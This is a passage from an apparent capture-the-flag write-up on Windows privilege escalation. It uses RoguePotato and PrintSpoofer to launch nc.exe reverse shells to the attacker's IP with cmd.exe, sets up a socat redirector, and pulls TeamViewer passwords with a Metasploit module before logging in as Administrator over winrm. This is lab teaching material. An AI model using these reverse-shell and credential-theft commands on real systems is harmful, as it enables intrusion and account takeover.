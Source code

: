 Then we setup a network redirector with socat on the attacker machine using the following command

```bash
socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```

Now we setup a listener and run the following command on the target system that's gonna utilize the nc.exe to sends us another shell.

```bash
RoguePotato.exe -r 10.10.17.90 -e "C:\Windows\Temp\nc.exe 10.10.17.90 3001 -e cmd.exe" -l 9999
```

![](7.png)

Now back to our listener we should see a shell as System

![](8.png)

For a better understanding of the exploit check this video by `HackerSploit`: [TOken Impersonation With RoguePotato](https://www.youtube.com/watch?v=j0bh6aG1VC4)

## PrintSpoofer

One other privilege we see is `SeAssignPrimaryTokenPrivilege`.

To exploit that we can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).

We upload the executable to the target and run the following command.

```bash
PrintSpoofer64.exe -c "C:\Windows\Temp\nc.exe 10.10.17.90 9002 -e cmd.exe" -i
```

![](9.png)

## Intended Way

After running winpeas we find that TeamViewer is listening on a local port.

![](10.png)

Checking TeamViewer directory on `Program File (x86)` we find it's version 7.

![](11.png)

This version is vulnerable to `Local Credentials Disclosure`. The passwords are encrypted with `AES-128-CBC` with known `key` and `iv`, for more information check this [article](https://whynotsecurity.com/blog/teamviewer/)

To get clear text password we first get a meterpreter shell then use the module `post/windows/gather/credentials/teamviewer_passwords`.

![](12.png)

We got a password, now let's see if it's the same one the Administrator uses by logging in via `winrm`

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).